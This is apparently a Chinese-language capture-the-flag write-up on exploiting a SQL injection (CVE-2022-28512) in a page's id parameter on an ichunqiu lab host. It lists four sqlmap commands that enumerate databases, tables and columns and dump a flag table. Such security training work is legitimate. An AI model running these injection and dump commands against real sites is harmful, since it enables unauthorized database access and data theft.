

# SQL注入漏洞利用分析报告 (CVE-2022-28512)

## 漏洞发现过程

1. **目标页面访问**  
   通过访问目标网站页面，根据题目可知/single.php`存在SQL注入漏洞。  
   

2. **错误信息分析**  
   直接访问`/single.php`时返回PHP报错，提示缺少`id`参数。  
   

3. **参数测试**  
   通过GET方式传入参数`id=1`后，页面正常显示：  
   `http://eci-2zeedg8aj1e1e5442eth.cloudeci1.ichunqiu.com/single.php?id=1`  
   

## SQL注入利用步骤

### 1. 数据库枚举
使用sqlmap工具枚举数据库：
```bash
python sqlmap.py -u "http://eci-2zeedg8aj1e1e5442eth.cloudeci1.ichunqiu.com/single.php?id=1" --batch --random-agent --dbs
```


### 2. 表枚举
针对`ctf`数据库进行表枚举：
```bash
python sqlmap.py -u "http://eci-2zeedg8aj1e1e5442eth.cloudeci1.ichunqiu.com/single.php?id=1" --batch --random-agent -D "ctf" --tables
```


### 3. 列枚举
枚举`flag`表的列：
```bash
python sqlmap.py -u "http://eci-2zeedg8aj1e1e5442eth.cloudeci1.ichunqiu.com/single.php?id=1" --batch --random-agent -D "ctf" -T "flag" --columns
```


### 4. 数据提取
提取`flag`列的数据：
```bash
python sqlmap.py -u "http://eci-2zeedg8aj1e1e5442eth.cloudeci1.ichunqiu.com/single.php?id=1" --batch --random-agent -D "ctf" -T "flag" -C "flag" --dump
```


